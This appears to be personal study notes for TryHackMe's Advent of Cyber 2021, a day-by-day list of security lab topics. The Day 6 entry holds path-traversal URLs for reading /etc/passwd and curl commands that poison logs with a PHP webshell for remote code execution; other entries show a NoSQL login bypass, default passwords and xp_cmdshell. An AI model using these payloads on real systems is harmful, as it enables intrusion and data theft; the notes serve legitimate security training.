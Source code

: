 ```yaml
---
title: (N)(THM)Advent of Cyber 2021
published: true
---
```


### [Day 1] Web Exploitation Save The Gifts

IDOR (Insecure Direct Object Reference)

Protocol: https://

Domain: website.thm

Page: /profile

Query Component: id=23

https://website.com/form?user_id=11

### [Day 2] Web Exploitation Elf HR Problems

HTTP(S)/Cookies

change cookies

###  [Day 3] Web Exploitation Christmas Blackout

#1

administrator

administrator

#2  

administrator

password123

#3  

administrator

letmein

### [Day 4] Web Exploitation Santa's Running Behind

authentication
fuzzing
burp suite 

###  [Day 5] Web Exploitation Pesky Elf Forum

query -> XSS
input allow html css tag maybe vuln-> XSS

###  [Day 6] Web Exploitation Patch Management Is Hard

```php
<?PHP 
	include($_GET["file"]);
?>
```

```shell-session
curl -A "This is testing" http://LAB_WEB_URL.p.thmlabs.com/login.php
```

```shell-session
 curl -A "<?php phpinfo();?>" http://LAB_WEB_URL.p.thmlabs.com/login.php
```

```scheme
http://example.thm.labs/page.php?file=/etc/passwd http://example.thm.labs/page.php?file=../../../../../../etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```

```shell
curl -A "<?php echo 'miazma               '; system(\_GET['cmd']);?>" http://10.10.188.200/index.php   
```

``` url
index?q=echo '<?php echo 'miazma       ''; system(\_GET['cmd']);?>' > backdoor.php
```
call backdoor.php -> RCE

### [Day 7] Web Exploitation Migration Without Security

-   What is NoSQL?
-   Understanding NoSQL database
-   Understand Why NoSQL happens
-   Understand what NoSQL injection is
-   Using NoSQL Injection to bypass a login form

Burpsuite
$eq - matches records that equal to a certain value

$ne - matches records that are not equal to a certain value

$gt - matches records that are greater than a certain value.

$where - matches records based on Javascript condition

$exists - matches records that have a certain field

$regex - matches records that satisfy certain regular expressions.
```url
search?username[$eq]=mcskidy&role[$ne]=user
```


### [Day 8] Special by John Hammond Santa's Bag of Toys

WIndows Powershell log analysis 

While you do not have to use these commands for this task, these will turn on PowerShell Transcription Logging for a local host if entered in an Administrator command prompt:
```powershell
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /t REG_DWORD /d 0x1 /f
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v OutputDirectory /t REG_SZ /d C:/ /f
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableInvocationHeader /t REG_DWORD /d 0x1 /f
```

The Windows Registry is a large database of operating system settings and configurations. It is organized by "hives", with each hive containing "keys" and their corresponding "values." PowerShell Transcription Logging can be enabled in this way "per-user" via the `HKEY_CURRENT_USER` registry hive, or across the entire host via the `HKEY_LOCAL_MACHINE` registry hive.

### [Day 9] Networking Where Is All This Data Going

wireshark

### [Day 10] Networking Offensive Is The Best Defence

nmap -p- -sT -sV -sS  

### [Day 11] Networking Where Are The Reindeers?

MS SQL server default port 1433
```shell
sqsh -S server -U username -P password
```

```sql
SELECT * FROM table_name WHERE condition
```

```
SELECT * FROM database.dbo.table;
```

```ms sql
xp_cmdshell 'COMMAND';
```

### [Day 12] Networking Sharing Without Caring

nfs mount
```shell
showmount -e IP_ADDRESS
```

###  [Day 13] Networking They Lost The Plan!

Windows Privilege Escalation Vectors
-   Stored Credentials
-   Windows Kernel Exploit
-   Insecure File/Folder Permissions
-   Insecure Service Permissions
-   DLL Hijacking
-   Unquoted Service Path
-   Always Install Elevated
-   Other software

```cmd
net users
systeminfo | findstr /B /C: "OS Name"/C: "OS Version"
wmic service list
```

### [Day 14] Networking Dev(Insecure)Ops
CI/CD

Major risks related to a CI/CD integration are mentioned below:
-   Access security
-   Permissions
-   Keys and secrets
-   User security
-   Default configuration

###  [Day 15] Cyber Careers The Grinchs day off

QUIZZ TIME !!! 

### [Day 16] OSINT Ransomware Madness
OSINT

### [Day 17] Cloud Elf Leaks
 Cloud (AWS,S3)
 
 ### [Day 18] Cloud Playing With Containers
 Clod (docker aws)
 
 ### [Day 19] Blue Teaming Something Phishy Is Going On

Phising analyis

### [Day 21] Blue Teaming Needles In Computer Stacks
Yara rules
The basic syntax of a Yara rule is as follows:
```shell
yara [options] rule_file [target]
```


```yara rule
rule rulename  
	{    
	meta:
		author ="tryhackme"
		description = "test rule"
		created = "11/12/2021 00:00"
	strings:      
			$textstring = "text"
			$hexstring = {4D 5A}
	conditions: 
		$textstring and $hexstring  
	}
```

### [Day 22] Blue Teaming How It Happened
CyberChef
oledump.py

### [Day 23] Blue Teaming PowershELlF Magic

 Full Event Log View
 
### [Day 24] Post Exploitation Learning From The Grinch
Mimikatz
